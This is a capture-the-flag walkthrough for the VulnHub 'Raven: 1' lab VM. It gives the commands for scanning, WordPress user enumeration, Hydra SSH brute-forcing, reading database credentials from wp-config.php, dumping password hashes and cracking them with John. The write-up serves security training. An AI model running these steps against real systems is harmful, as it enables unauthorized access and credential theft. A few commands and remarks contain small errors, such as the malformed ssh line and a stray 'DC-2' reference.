# Raven: 1 Walkthrough

## Preparation
1. Download Raven.ova file ([Raven.ova](https://download.vulnhub.com/raven/Raven.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the Raven1 virtual machine
    * Turn on the Raven1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Raven1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.110**: Raven1 Server

1. Set the Raven1 IP address to the environment variance  
    * `export IP=192.168.56.110`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service), 80 (HTTP Service), and 111 (RPCBIND Service) ports.  

1. Enumerate accessible files and directories  
    * Use DIRB  
      
        - `export URL="http://$IP:80/"`  
        - `dirb $URL -r`  
        - There is a /wordpress directory  

1. Access to the wordpress directory  
    * Access from Web browser  
      
        - The display layout is not arranged  
    * Add the IP address in the /etc/hosts  
      
        - `sudo vi /etc/hosts`  
        - `192.168.56.110 raven.local`  
        - The display is arranged  

1. Enumerate users of WordPress  
    * Use WPScan  
      
        - `wpscan --url $URL/wordpress --enumerate u`  
        - "michael" and "steven" are confirmed  
    * Make users list  
      
        - `cat > names.txt`  

## Execution (First Try)  
1. Find SSH password  
    * Use Hydra (Because we analyze SSH password)  
        - `hydra ssh://$IP -L names.txt -P /usr/share/john/password.lst -v -t 4`  
        - The "michael" password: **michael**  

1. Access to the SSH service  
    * Use the username and the password of the Hydra's results  
      
        - `ssh michael@$192.168.56.110`  
        - Password: **michael**  

## Credential Access  for general user  
1. Open the user's flag  
    * There is a flag file in /var/www directory  
      

## Execution (Second Try)  
1. Investigate the database information  
    * See the "wp-config.php" file  
      
        - `cd /var/www/html/wordpress`  
        - `more wp-config.php`  
        - DB_USER: **root**  
        - DB_PASSWORD: **R@v3nSecurity**  

1. Access to the MySQL server in the Raven server  
    * Access to the MySQL  
      
        - `mysql -h localhost -u root -p`  
        - Password: **R@v3nSecurity**  

1. Search the Database  
    * Find the user information and flags  
      
      
        - `show databases;`  
        - `use wordpress;`  
        - `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`  
        - `select * from wp_posts\G;`  

1. Analyze the hashed passwords  
    * Analyze the hash from the attacker's server (Because the analysis may place a heavy load)  
      
        - `cat > hash.txt`  
    * Use John  
      
        - `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`  
        - Steven's password: **pink84**  

1. Change the user  
    * Change user from "michael" to "steven" from Raven server  
        - `su steven`  